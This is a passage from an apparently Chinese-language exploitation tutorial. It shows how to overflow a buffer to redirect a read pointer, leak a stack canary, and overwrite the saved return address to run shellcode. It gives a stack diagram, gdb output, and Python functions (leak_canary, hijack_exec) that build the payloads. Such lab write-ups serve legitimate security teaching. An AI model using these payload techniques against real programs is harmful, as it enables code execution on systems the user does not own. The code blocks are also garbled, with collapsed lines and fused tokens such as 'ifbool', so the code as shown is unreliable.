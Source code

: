 我们开发的漏洞利用程序已失效。修复内存泄露漏洞使其失效，因为它主要依赖于利用漏洞利用链中的其中一个漏洞。  
  
不用担心，我们仍然可以在没有其他错误的情况下泄露它  
  
存在一个允许数据从内存泄漏的漏洞可能非常有帮助，但这种情况并不总是会发生。在这种情况下，替代解决方案是利用相同的缓冲区溢出漏洞，尝试从内存中泄漏机密敏感数据。让我们回顾一下堆栈布局。它看起来像这样：  
  
```
0x00 -> *--------------------------* <-- Injection Point        | |        | |        | |        | |        | |        | |0x100-> *--------------------------* <-- Buffer->cpReadData        | |0x108-> *--------------------------* <-- Buffer->nSize        | |0x110-> *--------------------------* <-- Junk data        | | 0x118-> *--------------------------* <-- Canary / Cookie        | | 0x120-> *--------------------------* <-- Saved RBP ( Base Pointer )        | | 0x128-> *--------------------------* <-- Saved RIP ( Instruction Pointer )        | |         *--------------------------*
```  
  
  
你没注意到吗？Buffer->cpReadData用于读取内存的指针已经被我们控制了。我们可以伪造该地址，使其指向内存中我们想要的任何其他位置，并泄露其内容。我们的计划如下：  
1. 使用写入函数填充缓冲区直到进入目标指针。  
  
1. Buffer->cpReadData用金丝雀地址覆盖。  
  
1. 通过触发读取功能泄露金丝雀。  
  
1. 再次触发写入功能，使用精心设计的有效载荷覆盖剩余数据。  
  
1. 利用允许主程序返回的退出函数来触发 shellcode 执行。  
  
```
(gdb) cContinuing.Breakpoint 1, 0x00005555555553cf in main ()(gdb) x/a $rbp-80x7fffffffdd48: 0xe1125f7dcee84f00
```  
  
  
我将 gdb 连接到目标进程，并在主函数处设置了一个断点。检查完 Canary 后，我发现它位于0x7fffffffdd48内存中。然而，这里有一个问题：Canary 的最低位（最低有效字节）总是包含一个空字节。因此，我们必须从该地址加一读取数据，这样空字节就不会阻止我们，并且我们可以从泄漏的数据中获取七个字节，然后自行附加空字节。  
  
```
def leak_canary(p: Popen):    payload = b""    payload += b"A" * 0x100                         # Filling the stack frame    payload += struct.pack( "<Q", 0x7fffffffdd49 ) # Buffer->cpReadData    payload += (b"\x00" * 0x8) # Buffer->nSize ( To avoid touching it )    p.stdin.write( b"1\n" + payload + b"\n2\n" )    p.stdin.flush()    out = b""    canary_pos = -1    n = 0        while n < 1024:        out = p.stdout.readline()        canary_pos = out.find( b"Choose: " )        ifbool( ~canary_pos ) and canary_pos+15 < len(out):            canary_pos += 8            break        n += 1    else:        return-1    canary = struct.unpack( "<Q", b"\x00" + out[canary_pos : canary_pos+7] )[ 0 ]    return canary
```  
  
  
这个函数实现了我们之前讨论过的功能：泄漏金丝雀数据，尝试将其解析为整数值，然后返回给调用者。一切进展顺利，我们只需要对函数进行一些修改hijack_exec，一切就都正常了。  
  
```
defhijack_exec(p: Popen, canary):    payload = b""    payload += b"A" * 0x7                                 # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7fffffffdd60 + 0x40 ) # Instruction pointer    payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
除了第一行之外，我们几乎没有做任何改动，因为该leak_canary函数将填满大部分堆栈框架，只留下堆栈上需要溢出的一点空间来获取重要的东西。  
  